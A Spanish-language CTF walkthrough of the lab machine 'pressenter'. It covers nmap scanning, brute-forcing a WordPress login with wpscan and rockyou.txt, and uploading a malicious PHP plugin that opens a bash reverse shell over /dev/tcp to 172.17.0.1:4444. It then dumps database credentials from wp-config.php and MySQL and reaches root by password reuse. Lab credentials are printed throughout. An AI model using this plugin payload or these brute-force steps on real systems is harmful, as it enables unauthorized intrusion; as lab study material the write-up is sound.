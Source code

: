 ```yaml
---
Maquina: pressenter
SO: Linux
Explotación: Análisis web/wordpress y fuerza bruta
Escala_privs: Permisos sudo y mysql
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - linux
  - escala_privs
  - ssh
  - web
  - fuerza_bruta
  - wordpress
  - mysql
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sVC -Pn 172.17.0.2
```

![[Pasted image 20241111084751.png]]

Por lo que podemos observar hay tan solo un portal web activo así que nos tocará hacer un buen análisis web.

1.- Código fuente -> no se aprecian comentarios notorios.

2.- Análisis de subdirectorios con herramientas como dirb o gobuster -> Se encuentran solo un par de directorios y ambos con permisos muy reducidos.

3.- Análisis profundo de la web principal que observamos.

![[Pasted image 20241111090355.png]]

Si nos fijamos en la parte de abajo vemos que hay un dominio con el que podemos descubrir más sobre los creadores del protal web.

![[Pasted image 20241111091934.png]]

Si hay algo que me llama mucho la atención es el nombre de "perssi". Puede que nos acerquemos al acceso de su wordpress... Vamos a probar a un ataque de fuerza bruta a ver si podemos encontrar sus credenciales.

```bash
wpscan --url http://pressenter.hl/ --usernames pressi --passwords /home/alejandro/wordlists/rockyou.txt
```

![[Pasted image 20241111092048.png]]

Pues resuelta que sí -> pressi y dumbass. Vamos a intentar acceder con estas credenciales.

![[Pasted image 20241111092144.png]]

Estamos dentro! Pues vamos a intentar hacer un clásico de WordPress y crear un plugin que en realidad sea un reverse shell.

```bash
nano revershell.php #Vamos a configurar el archivo de reverse shell
```

```php
#Codigo de reverse shell ->
<?php
/*
Plugin Name: Plugin Malicioso
Description: Plugin para pruebas de seguridad en un entorno controlado.
Version: 1.0
Author: Pepito
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'");
?>

```

```bash
zip -r plugin.zip revershell.php #Lo comprimimos para poder subirlo a wordpress
```

Una vez tenemos el plugin listo nos vamos al portal web de wordpress, añadir plugins -> subir plugin -> subimos el plugin e instalamos ahora y la mágia aparece cuando activamos el plugin.

![[Pasted image 20241111093412.png]]

Estamos dentro ;)

Ahora vamos a hacer el proceso de upgrade de tty de siempre y vamos a ver los premisos que tenemos.

![[Pasted image 20241111093622.png]]

Ya tenemos una tty funcional, pero me temo que no tenemos ningún tipo de passwd... Vamos a ver que nos encontramos de interés..

Para intentar ver el usuario de la base de datos desde el www-data podemos intentar acceder al wp-config.php ->

![[Pasted image 20241111095741.png]]

Parece que tenemos algo interesante (admin, rooteable), vamos a ver si podemos acceder a la base de datos.

![[Pasted image 20241111095927.png]]

Parece que estamos dentro de la base de datos, vamos a ver si tienen algo interesante...

![[Pasted image 20241111100115.png]]

```mysql
#Recopilación de comandos usados:
show databases;

use wordpress;

show tables;

select * from wp_usernames;
```

Pero bueno, que tenemos aquí, parece que tenemos el nombre de usuario y la passwd de un posible usuario del sistema... (Enter y kernellinuxhack)

![[Pasted image 20241111100156.png]]

Sorpresa... Estamos dentro del usuario Enter, ahora vamos a ver si tiene permisos ->

![[Pasted image 20241111100702.png]]

Por lo que vemos tenemos unos pocos permisos para poder leer cualquier tipo de documento y curiosamente tenemos un documento un poco peculiar en nuestro directorio con el siguiente contenido -> 4a05a7bc45edb56b1f033ca1606e176c.

![[Pasted image 20241111100829.png]]

Pero por desgracia solo se trata de un elemento que nos hace perder el tiempo. El verdado misterio se revela cuando probamos la contraseña de enter en root ->

![[Pasted image 20241111101330.png]]




